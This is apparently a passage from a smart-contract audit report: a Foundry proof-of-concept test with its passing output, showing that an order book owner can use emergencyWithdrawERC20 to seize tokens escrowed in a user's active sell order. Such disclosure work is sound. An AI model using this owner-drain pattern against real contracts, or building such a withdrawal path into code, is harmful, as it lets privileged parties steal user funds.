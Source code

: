    aave = new MockAAVE(18);
    ```
5. Append the following test, then run `forge test -vv --match-test test_exploitEmergencyWithdrawERC20`
    ```solidity
    function test_exploitEmergencyWithdrawERC20() public {
        // owner allows AAVE token to be sold
        vm.prank(owner);
        book.setAllowedSellToken(address(aave), true);
        console2.log("Book's AAVE balance: %s\n", aave.balanceOf(address(book)));

        // alice creates sell order for AAVE
        aave.mint(alice, 2);
        vm.startPrank(alice);
        aave.approve(address(book), 2e18);
        uint256 aliceId = book.createSellOrder(address(aave), 2e18,
            1_000e6, 2 days);
        vm.stopPrank();

        assert(aliceId == 1);
        assert(aave.balanceOf(alice) == 0);
        assert(aave.balanceOf(address(book)) == 2e18);

        string memory aliceOrderDetails = book.getOrderDetailsString(aliceId);
        console2.log("Alice creates an order:%s\n", aliceOrderDetails);
        console2.log("Book's AAVE balance: %s", aave.balanceOf(address(book)));

        // owner exploits emergency withdraw
        vm.prank(owner);
        book.emergencyWithdrawERC20(address(aave), 2e18, owner);
        console2.log("Owner calls emergencyWithdrawERC20() to withdraw %s AAVE tokens from the Alice's order", aave.balanceOf(owner));
        console2.log("Book's AAVE balance: %s", aave.balanceOf(address(book)));
        assert(aave.balanceOf(owner) == 2e18);
    }
    ```
PoC Results:
```
forge test -vv --match-test test_exploitEmergencyWithdrawERC20
[⠊] Compiling...
[⠑] Compiling 1 files with Solc 0.8.26
[⠘] Solc 0.8.26 finished in 679.16ms
Compiler run successful!

Ran 1 test for test/TestOrderBook.t.sol:TestOrderBook
[PASS] test_exploitEmergencyWithdrawERC20() (gas: 338299)
Logs:
  Book's AAVE balance: 0

  Alice creates an order:Order ID: 1
Seller: 0xaf6db259343d020e372f4ab69cad536aaf79d0ac
Selling: 2000000000000000000 
Asking Price: 1000000000 USDC
Deadline Timestamp: 172801
Status: Active

  Book's AAVE balance: 2000000000000000000
  Owner calls emergencyWithdrawERC20() to withdraw 2000000000000000000 AAVE tokens from the Alice's order
  Book's AAVE balance: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.79ms (1.33ms CPU time)

Ran 1 test suite in 230.67ms (7.79ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
